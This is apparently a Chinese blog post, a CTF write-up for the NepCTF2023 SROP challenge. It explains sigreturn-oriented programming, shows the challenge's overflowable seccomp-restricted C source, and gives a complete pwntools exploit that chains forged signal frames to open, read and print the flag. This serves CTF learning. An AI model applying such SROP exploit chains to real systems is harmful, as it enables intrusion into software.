 ```yaml
---
title: SROP初见杀 NepCTF2023
date: 2023-08-12 20:45:49
tags:
  - pwn
  - srop
categories:
  - CS
excerpt: 这次比赛第一题就是很明显的 SROP，正好啥也不会，学习了一下
---
```


> 这次比赛第一题就是很明显的**SROP**，正好啥也不会，学习了一下

# SROP

**SROP**全称为**Sigreturn Oriented Programming**，其攻击核心为通过伪造一个**Signal Frame**（以下简称**sigFrame**）在栈上，同时触发**sigreturn**系统调用，让内核为我们恢复一个sigFrame所描述的进程，如一个shell、一个wrtie系统调用打印栈地址等，同时通过对sigFrame中rsp和rip的修改，连接多个sigFrame，可通过多次触发sigreturn系统调用，依次恢复多个sigFrame，实现不同的功能，构成SROP攻击。一个sigFrame可理解为一个进程被挂起时，用于保存进程的数据结构，当进程恢复时，通过触发sigreturn来恢复sigFrame，从而恢复一个进程。

以上内容是抄的，说白了就是：进程受到一个signal进入中断，内核会保存上下文（寄存器状态之类的，这个上下文存在**sigFrame**中），随后进入用户态执行处理函数，处理完最后又进入内核态恢复上下文

![image-20230812205434238](../img/SROP.assets/image-20230812205434238.png)

而这个保存上下文的sigFrame完全在**用户空间**，并且内核对进程挂起时保存的sigFrame以及恢复时还原的sigFrame**没有做任何关联**，这导致sigFrame可以被伪造

![image-20230812205639153](../img/SROP.assets/image-20230812205639153.png)

上图是64位的sigFrame结构。恢复上下文之前，会调用处理函数**Signal Handler**，该函数最后一个指令是`ret`，此时`rsp`正好指向sigFrame的栈顶，也就是存有函数`rt_sigreturn`地址的位置。随后调用`rt_sigreturn`，通过该函数完成上下文的恢复。

因此，我们可以在`rsp`附近伪造sigFrame，通过调用`rt_sigreturn`完成寄存器的布置

调用可以直接写内存，更常见的是进行调用号为0xf的系统调用

> 小技巧：系统调用号可以通过`cat /usr/include/asm/unistd_64.h`查看

另外，pwntools中的`SigreturnFrame()`可以方便完成寄存器的布置

# Nepctf2023-SROP

源码都喂我嘴里了

```c
//gcc -no-pie pwn.c -fno-stack-protector -z now -o pwn  -lseccomp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <syscall.h>
#include <seccomp.h>
#include <linux/seccomp.h>

char buf[0x30]="welcome to NepCTF2023!\n";

int seccomp(){
    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(rt_sigreturn), 0);
    seccomp_load(ctx);
    return 0;
}

int sys(){
    return 15;
}

int main(){
     char bd[0x30];
     seccomp();
     syscall(1,1,buf,0x30);
     return syscall(0,0,bd,0x300);
}
```

显然需要打一个orw

注意这里有一个坑，众所周知，`syscall`的系统调用号是通过`rax`传递，然而我们反汇编之后

![image-20230812211245122](../img/SROP.assets/image-20230812211245122.png)

令人意外的是，这里的`syscall`都是通过`rdi`传调用号的，猜测与这里使用`call syscall`而非直接使用`syscall`有关

既然不用`rax`传调用号，那题目中的`sys()`函数也就没有意义了，好在能找到`pop rdi`的gadgets，可以任意布置

我的思路是，先打一次srop，把flag写到bss段，顺便把栈迁移过去，随后挨着打orw



**伪造sigFreame**时需要**格外注意**

`cs` `gs` `fs` `ss`需要**保持不变**！否则会报错！



本人就在这里排查了很久

可以按照如下写法

`sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)`

从左往右依次为`cs` `gs` `fs` `ss`

exp如下

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b *0x0000000004007AE\n"
	gdb.attach(p, cmd)
	pause()

host = "nepctf.1cepeak.cn"
port = 30551
#p = process("./pwn")
p = remote(host, port)

sig = 0x0000000000400750
pop_rdi = 0x0000000000400813
syscall = 0x00000000004007A8
buf = 0x0000000000601020

p.recv()
payload = "\x00"*0x38 +p64(pop_rdi)+p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 0
sig.rdx = buf
sig.rcx = 0x1000
sig.rip = syscall
sig.rsp = buf+0x10
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

p.send(payload)

# debug()

payload = "flag\x00\x00\x00\x00"
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 2
sig.rsi = buf
sig.rdx = 0
sig.rcx = 0
sig.rip = syscall
sig.rsp = buf+0x120
sig.rbp = buf+0x120
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x120,"\x00")
payload += p64(buf+0x120)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 3
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x240,"\x00")
payload += p64(buf+0x240)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 1
sig.rsi = 1
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)


p.send(payload)

p.interactive()
```

